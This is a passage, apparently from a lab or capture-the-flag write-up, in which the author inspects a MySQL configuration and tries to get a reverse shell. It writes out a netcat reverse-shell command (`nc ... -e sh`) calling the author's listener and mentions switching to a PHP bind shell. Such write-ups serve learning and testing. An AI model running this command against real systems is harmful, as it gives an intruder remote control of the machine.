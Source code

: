 ![mysql-config](./assets/mysql-config.png)

next step I need to make it reverse shell back to my local `netcat` listener first I need to know what prompt process

![check-prompt](./assets/check-prompt-process.png)

I use this command to send back to my netcat listener

`nc 192.168.1.103 9001 -e sh` 

but it seem does work with unstable shell so I change plan to use php bind shell instead
